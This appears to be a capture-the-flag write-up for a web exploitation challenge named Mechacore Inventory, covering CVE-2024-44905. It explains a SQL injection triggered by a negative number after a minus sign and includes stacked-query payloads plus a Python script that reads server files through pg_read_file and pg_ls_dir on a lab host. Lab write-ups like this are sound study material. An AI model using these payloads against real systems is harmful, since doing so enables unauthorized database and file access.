 ```yaml
---
title: "Mechacore Inventory"
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 120
solves: -1
flags: THM{REDACTED}
---
```

> Virelia bought another Mechacore piece of junk. It's now an inventory system for their manufactured parts. Why a water company needs to create robot parts escapes me completely. Maybe we can access the server and clear our doubts.

---

This is `CVE-2024-44905` you can read more about it [Double Dash, Double Trouble: A Subtle SQL Injection Flaw](https://www.sonarsource.com/blog/double-dash-double-trouble-a-subtle-sql-injection-flaw/)

The vulnerable SQL query is as follows:

`item.creation_timestamp >= cast(extract(epoch from current_timestamp) as integer)-? or item.name=?`

Because there is a `-` in the query, it is possible to inject a negative number to comment the query after.

```sql
item.creation_timestamp >= cast(extract(epoch from current_timestamp) as integer)-- or item.name=foo
); INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) 
VALUES ($$TEST$$,$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1);--
```

Because single quotes are not allowed, we can use `$$` to delimit the string.

```py
import requests

# url = "http://10.10.67.220/?lastnseconds=-1&name=foo\x0a)%3B INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) \x0a VALUES (pg_ls_dir($$/home/ubuntu/$$),$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1)%3B--"
url = "http://10.10.67.220/?lastnseconds=-1&name=foo\x0a)%3B INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) \x0a VALUES (pg_read_file($$/home/ubuntu/flag-12376287432546781647235.txt$$, 0, 10000),$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1)%3B--"

response = requests.get(url)
if response.status_code == 200:
    print("Request was successful.")
else:
    print(f"Request failed with status code: {response.status_code}")

print("Response content:", response.text)
```
